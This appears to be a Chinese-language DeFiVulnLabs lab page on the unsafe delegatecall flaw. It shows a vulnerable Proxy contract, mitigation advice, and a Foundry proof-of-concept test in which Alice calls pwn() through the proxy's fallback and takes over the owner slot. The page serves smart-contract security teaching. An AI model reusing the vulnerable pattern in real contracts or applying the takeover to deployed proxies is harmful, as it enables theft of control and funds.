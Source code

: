 # 不安全委托调用
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  

**名称：** 不安全委托调用漏洞  

**描述：**  
Proxy合约中的变量owner被操控漏洞是智能合约设计中的缺陷，这种缺陷允许攻击者操纵Proxy合约的owner，并且onwer被硬编码为0xdeadbeef。  
这个漏洞的产生是由于在Proxy合约的fallback函数中使用了delegatecall。   
delegatecall允许攻击者在Proxy合约上下文中，调用Delegate合约中的pwn()函数，从而改变Proxy合约状态变量owner的值。  
这允许智能合约在运行时，从不同的地址动态加载代码。  

**场景：**  
Proxy合约是为了帮助用户调用逻辑合约而设计的。
Proxy合约的owner被硬编码为0xdeadbeef。  
你可以操纵代理合约的owner吗？  


**解决方法：**  
为了缓解Proxy合约所有者被操纵漏洞，除非明确要求delegatecall，否则不要使用。即使要使用时也要确保使用delegatecall的安全性。  
如果对于合约的功能而言委托调用是必要的，务必验证和清理输入，以避免出现意外行为。  


**Proxy 合约：**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // 漏洞
        require(suc, "Delegatecall failed");
    }
}
```     


**如何测试：**  

forge test --contracts src/test/Delegatecall.sol-vvvv 
```
// 测试使用delegatecall场景的函数
function testDelegatecall() public {
    // 初始化一个新的委托合约，即“逻辑合约”。
    DelegateContract = new Delegate(); 
    // 初始化一个新的代理合约，将委托合约的地址传递给构造函数。这就是“代理合约”。
    proxy = new Proxy(address(DelegateContract)); 

    // 记录Alice的地址。
    console.log("Alice address", alice);
    // 记录代理合约的所有者。
    console.log("DelegationContract owner", proxy.owner());

    // 记录更改代理合约所有者操作的开始
    console.log("Change DelegationContract owner to Alice...");
    // 将msg.sender设置为Alice。
    vm.prank(alice);
    // 通过delegatecall 调用Delegate合约的pwn函数.这就是漏洞。
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback()将委托调用Delegate.pwn(), 使得Alice成为代理合约的所有者。

    // 记录代理合约的新所有者。
    console.log("DelegationContract owner", proxy.owner());
    // 记录漏洞攻击完成。
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// Delegate 合约, 包含了可以通过delegatecall调用的代码。
contract Delegate {
    // 合约的所有者。
    address public owner; // slot0

    // pwn 函数, 将合约的所有者设置为消息发送者。
    function pwn() public {
        owner = msg.sender;
    }
}
```  
**红框：** 攻击成功，owner已经更改
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
